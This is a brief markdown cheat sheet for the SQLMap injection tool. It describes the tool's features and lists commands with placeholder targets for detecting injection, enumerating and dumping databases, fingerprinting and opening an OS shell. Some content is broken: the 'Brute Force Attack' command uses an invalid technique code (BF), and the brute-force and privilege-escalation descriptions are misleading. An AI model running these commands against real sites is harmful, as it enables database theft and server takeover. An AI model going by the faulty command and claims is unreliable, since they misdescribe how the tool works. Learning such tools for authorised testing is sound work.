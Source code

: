# `SQLMap`

### Automatic SQL Injection Detection:
SQLMap automates the process of detecting and exploiting SQL injection vulnerabilities in web applications by analyzing the provided parameters and payloads.

### Support for Multiple Database Management Systems (DBMS):
SQLMap supports various database management systems such as MySQL, PostgreSQL, Microsoft SQL Server, Oracle, and others.

### Enumeration of Database Information:
SQLMap can enumerate and extract valuable information from the database, including database names, tables, columns, and users.

### Brute Force and Dictionary Attacks:
Similar to Hydra, SQLMap supports brute-force and dictionary attacks to guess database usernames and passwords.


#### Automatic SQL Injection Detection:
sqlmap -u <target-url>


#### Enumeration of Databases:
sqlmap -u <target-url> --dbs


#### Dumping Data from a Specific Database:
sqlmap -u <target-url> -D <database-name> --dump


#### Brute Force Attack:
sqlmap -u <target-url> --data "username=test&password=^" -p password --dbms=mysql --technique=BF


#### Batch Testing:
sqlmap -m targets.txt


#### Fingerprinting:
sqlmap -u <target-url> --banner


#### Privilege Escalation:
sqlmap -u <target-url> --os-shell
